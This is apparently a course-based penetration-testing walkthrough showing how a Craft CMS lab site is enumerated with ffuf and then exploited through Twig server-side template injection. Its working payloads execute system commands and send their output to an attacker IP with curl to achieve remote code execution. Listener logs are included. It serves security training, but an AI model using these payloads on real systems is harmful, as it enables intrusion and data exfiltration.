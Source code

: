 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Case Study: Craft CMS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

The source code of the web application contains some clues. More specifically, it discloses that the **Craft CMS** is used and the use of `[]` in the `name` attribute of the `input` field indicates the usage of the **PHP** programming language (Figure 1).

<figure><img src="../../../.gitbook/assets/web_ssti_craft_1.png" alt=""><figcaption><p>Figure 1: Inspecting the source code of the homepage.</p></figcaption></figure>

Performing a dirbusting with [`ffuf`](broken-reference) , we find that there is an `/admin` directory which further confirms that we are using the Craft CMS (Figure 2).

{% code overflow="wrap" %}
```bash
$ ffuf -u 'http://craft/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -c -ic -ac
<SNIP>

index          [Status: 200, Size: 56254, Words: 12711, Lines: 740, Duration: 2847ms]
admin          [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3572ms]
logout         [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3448ms]
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_ssti_craft_2.png" alt=""><figcaption><p>Figure 2: The <code>/admin</code> directory validates the usage of the Craft CMS.</p></figcaption></figure>

The home page of the web application provides a way to send an email to the site's administrator. **Emails are great targets for SSTI** as they consist of mainly generic elements which are then tailored to the user using a templating engine. Searching for "[_Craft CMS templating engine_](https://www.google.com/search?client=firefox-b-e\&q=craft+cms+templating+engine)" reveals that [Twig](twig.md) is used (Figure 3).

<figure><img src="../../../.gitbook/assets/web_ssti_craft_3.png" alt=""><figcaption><p>Figure 3: Enumerating Craft's templating engine.</p></figcaption></figure>

We can send an email containing a Twig-specific payload to form an out-of-band communication.

```twig
{{[0]|reduce('system','curl http://192.168.45.155:7331/hello')}}
```

When we send the email the payload is executed and we receive a response back.

{% code overflow="wrap" %}
```bash
$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
192.168.152.105 - - [15/Aug/2024 17:01:27] code 404, message File not found
192.168.152.105 - - [15/Aug/2024 17:01:27] "GET /hello HTTP/1.1" 404 -
```
{% endcode %}

To exfiltrate data in Twig, we use the [tilde character](https://twig.symfony.com/doc/3.x/templates.html#other-operators) (`~`) for string concatenation, which allows us to append the exfiltrated data to a `GET` request and the [`set`](https://twig.symfony.com/doc/3.x/tags/set.html) tag to declare variables. Additionally, we apply the [`url_encode`](https://twig.symfony.com/doc/3.x/filters/url_encode.html) method method to the `exfil` variable to ensure our payload is properly URL-encoded.

```bash
{% set output %}
{{[0]|reduce('system','whoami')}}
{% endset %}}

{% set exfil = output| url_encode %}
{{[0]|reduce('system','curl http://192.168.45.155:7331/?exfil=' ~ exfil)}}
```

In the response, we confirm that we have achieved RCE.

{% code overflow="wrap" %}
```bash
$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
192.168.152.105 - - [15/Aug/2024 17:45:00] "GET /?exfil=%3Cbr%20%2F%3E%0Awww-data%0Awww-data%3Cbr%20%2F%3E%0A HTTP/1.1" 200 -

# URL-decoding the exfiltrated data
$ echo "%3Cbr%20%2F%3E%0Awww-data%0Awww-data%3Cbr%20%2F%3E%0A" | python3 -c 'import sys;from urllib.parse import unquote;print(unquote(sys.stdin.read()));'
<br />
www-data
www-data<br />
```
{% endcode %}
